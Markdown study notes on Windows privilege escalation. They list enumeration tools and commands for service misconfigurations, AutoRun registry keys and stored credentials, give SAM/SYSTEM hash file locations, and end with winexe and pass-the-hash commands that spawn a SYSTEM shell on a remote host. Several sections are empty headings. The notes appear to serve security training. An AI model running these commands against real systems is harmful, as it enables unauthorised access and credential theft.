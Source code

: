 # Tools - Privilege escalation

1. Winpeas
2. sharup
3. powerup

Userpermissions check - accesschk.exe, But old version only supports --accepteula command line option

#### Techniques
##### 1. Kernel exploits

Tools
Windows exploit suggester
Waston - For recent version of Windows

Precompiled kernel exploits
SecWiki

##### 2. Service Misconfigurations

##### a. Insecure Service Properties

Weakness exploitable => Modifying the service configuration file by changing the binpath referring malicious.exe file. Upon executing, the reverse shell can be obtained.

Command  

```
.\winpeas quiet servicesinfo
```

Use accesschk.exe to check the permission to change the config of service, start/stop the service
```
.\accesschk.exe /accepteula -uwcqv user <service name>
```

```
sc qc <Servicename>
```
Check the START_TYPE
DEMAND_START means that the service can be start manually <br />
Binary path name and any dependencies can be identified. <br />
Service_Start_Name => LocalSystem => Means service is running with system privilege  <br />

```
sc query <servicename>
```
STATE => Current state of the service, started or stopped.

##### b. Unquoted Service Path
##### c. Weak Registry Permissions
##### d. Insecure Service Executables
##### e. DLL Hijacking

##### 3. Registry exploits

##### a. AutoRuns

If we are able to write to an AutoRun executable and able to restart the system,then t is possible to escalate privileges
```
.\winPEASany.exe quiet applicationsinfo
```

Command to enumerate the AutoRun executables manually

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

Then use accesschk.exe to verify the permissions of each service.

```
.\accesschk.exe /accepteula -wvu "C:\ProgramFiles\<Sample Program>\<program.exe>"
```

##### b. AlwaysInstallElevated

##### 4. Passwords

##### a. Searching Registry password

To check common password locations

```
.\winPEASany.exe quiet filesinfo userinfo
```

Using winexe command, we can spawn a shell

```
# winexe -U '<username>%<password>' //192.168.X.X cmd.exe
```

##### b. Saved Creds

Use winPEAS to check for saved credentials:

```
.\winPEASany.exe quiet cmd windowscreds
```

To doublecheck the output manually using following command

```
cmdkey /list
```

##### c. Searching for configruation files

Unattented.xml file

```
.\winPEASany.exe quiet cmd searchfast filesinfo
```

##### d. SAM & Passing the Hash

SAM and SYSTEM file default location
```
C:\Windows\System32\config
```

Backups of the files may exist in the following directories
```
C:\Windows\Repair
C:\Windows\System32\config\RegBack
```

Once hashes are obtained, in either ways we can spwan a cmd.exe
1. Crack the hashes and use winexe to spawn a shell
2. Use pth-winexe --system -U '<Username>%aad3b435b51404eeaad3b435b51404ee:<Users Hash>' //192.168.X.X cmd.exe
  --system - To spwan system (admin) shell
  Without --system, it could be normal user shell.
  
  
